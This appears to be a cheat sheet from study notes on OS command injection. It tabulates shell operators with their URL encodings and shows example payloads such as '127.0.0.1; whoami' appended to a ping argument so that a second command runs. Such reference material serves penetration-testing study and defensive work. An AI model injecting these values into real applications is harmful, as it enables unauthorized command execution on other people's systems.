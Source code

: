 ### Injection Operators Reference

| **Injection Operator** | **Character** | **URL-Encoded** | **Execution Behavior** | **Use Case** |
|------------------------|---------------|-----------------|------------------------|--------------|
| **Semicolon** | `;` | `%3b` | Both commands execute | Command separation |
| **New Line** | `\n` | `%0a` | Both commands execute | Line termination |
| **Background** | `&` | `%26` | Both execute (second output usually shown first) | Parallel execution |
| **Pipe** | `\|` | `%7c` | Both execute (only second output shown) | Output redirection |
| **AND** | `&&` | `%26%26` | Both execute (only if first succeeds) | Conditional execution |
| **OR** | `\|\|` | `%7c%7c` | Second executes (only if first fails) | Error handling |
| **Sub-Shell** | `` ` `` | `%60%60` | Both execute (Linux-only) | Command substitution |
| **Sub-Shell** | `$()` | `%24%28%29` | Both execute (Linux-only) | Modern command substitution |

### Operator Details

**1. Semicolon (`;`)**
```bash
# Example payload
127.0.0.1; whoami

# Resulting command
ping -c 1 127.0.0.1; whoami
```
- **Usage:** Command separator - executes commands sequentially
- **Compatibility:** Works on Linux/Unix and PowerShell, may not work on Windows CMD

**2. New Line (`\n`)**
```bash
# Example payload (URL-encoded)
127.0.0.1%0awhoami

# Resulting command
ping -c 1 127.0.0.1
whoami
```
- **Usage:** Creates new command line
- **Compatibility:** Universal across all platforms

**3. Background (`&`)**
```bash
# Example payload
127.0.0.1 & whoami

# Resulting command
ping -c 1 127.0.0.1 & whoami
```
- **Usage:** Runs first command in background, executes second immediately
- **Note:** Second command output often appears first

